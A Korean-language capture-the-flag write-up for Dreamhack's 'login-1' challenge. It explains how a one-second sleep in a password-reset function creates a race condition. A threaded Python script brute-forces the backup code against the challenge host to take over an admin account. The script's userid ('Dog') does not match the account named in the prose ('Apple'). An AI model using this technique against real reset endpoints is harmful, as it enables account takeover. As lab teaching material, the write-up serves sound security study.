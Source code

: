 # login-1

admin 권한을 가진 계정으로 로그인하는 문제이다.

```
def forgot_password():
    if request.method == 'GET':
        return render_template('forgot.html')
    else:
        userid = request.form.get("userid")
        newpassword = request.form.get("newpassword")
        backupCode = request.form.get("backupCode", type=int)

        conn = get_db()
        cur = conn.cursor()
        user = cur.execute('SELECT * FROM user WHERE id = ?', (userid,)).fetchone()
        if user:
            # security for brute force Attack.
            time.sleep(1)

            if user['resetCount'] == MAXRESETCOUNT:
                return "<script>alert('reset Count Exceed.');history.back(-1);</script>"
```   
문제에서 주어진 소스코드를 보면 계정의 비밀번호를 재설정 할 경우 forgot_password()함수에서 backupCode를 확인하고 있다.
여기서 brute force를 막기 위해 1초의 sleep이 이루어지고 시도할 수 있는 횟수가 정해져있다.   

하지만 sleep(1) 함수 때문에 race condition이 발생될 수 있다.   
<br/>

일단 admin 권한을 가진 계정을 찾아야한다.   
/user/useridx 페이지에서 admin 권한을 가진 계정을 찾을 수 있다.   
<br/>   
![](1.PNG)   
Apple 계정이 admin 권한을 가진 것을 확인했다.   
<br/>

이제 race condition 취약점을 이용해 Apple 계정의 비밀번호를 임의로 변경해주면 된다.   
```
import requests
import threading

url = 'http://host1.dreamhack.games:11408/forgot_password'

def crack(i):
    data={
         'userid': 'Dog',
         'newpassword':'1234',
         'backupCode':i
    }
    requests.post(url, data=data)
    print(data['backupCode'])

for i in range(100):
    i = str(i)
    th = threading.Thread(target=crack, args=(i,))
    th.start()
```   
<br/>

![](2.PNG)   

Apple 계정으로 로그인 하고 /admin 페이지에 들어가면 flag를 획득할 수 있다.


